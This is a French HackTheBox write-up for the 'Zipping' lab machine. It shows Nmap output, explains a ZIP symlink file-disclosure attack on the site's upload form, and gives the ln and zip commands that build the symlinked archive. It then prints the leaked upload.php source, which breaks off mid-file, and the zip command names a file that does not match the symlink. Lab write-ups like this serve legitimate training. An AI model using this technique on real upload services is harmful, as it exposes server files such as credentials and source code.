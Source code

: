 +++
title = "HTB - Zipping"
date = "2024-01-15"
author = "Brainmoustache"
authorTwitter = "BrainMoustache" #do not include @
cover = ""
tags = ["hackthebox", "zipping"]
keywords = ["", ""]
description = "Resume of Zipping from Hackthebox"
showFullContent = false
readingTime = true
hideComments = false
color = "blue"
+++

# HTB - Zipping
## Enumeration:
Nmap
```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-26 15:04 EDT
Nmap scan report for 10.129.129.1
Host is up (0.056s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.0p1 Ubuntu 1ubuntu7.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9d:6e:ec:02:2d:0f:6a:38:60:c6:aa:ac:1e:e0:c2:84 (ECDSA)
|_  256 eb:95:11:c7:a6:fa:ad:74:ab:a2:c5:f6:a4:02:18:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.54 ((Ubuntu))
|_http-title: Zipping | Watch store
|_http-server-header: Apache/2.4.54 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## User exploit
Naviguer dans l'application Web au niveau de la fonctionnalité d'upload de fichier `upload.php`.
Le première vulnérabilité a exploité est un `ZIP Symlink`. 

> `ZIP Symlink` permet de créer un fichier `zip` avec un fichier `symlink` spécial qui pointe vers un autre fichier arbitraire `/etc/passwd`. Lorsque le fichier sera extrait, il sera possible d'accéder au fichier. Au final, il s'agit aussi d'une vulnérabilité de type `file disclosure vulnerability` 
> 
> ref: https://secops.group/anatomy-of-a-file-upload-attack/ 

Dans le cas présent, cette vulnérabilité peut être utilisée afin d'accéder au fichier `upload.php`

```bash
ln -s ../upload.php
zip --symlinks wiz4rds.zip upload.pdf
```
Voici le contenu du fichier `upload.php`:
```php
<?php
if(isset($_POST['submit'])) {
  // Get the uploaded zip file
  $zipFile = $_FILES['zipFile']['tmp_name'];
  if ($_FILES["zipFile"]["size"] > 300000) {
	echo "<p>File size must be less than 300,000 bytes.</p>";
  } else {
	// Create an md5 hash of the zip file
	$fileHash = md5_file($zipFile);
	// Create a new directory for the extracted files
	$uploadDir = "uploads/$fileHash/";
	// Extract the files from the zip
```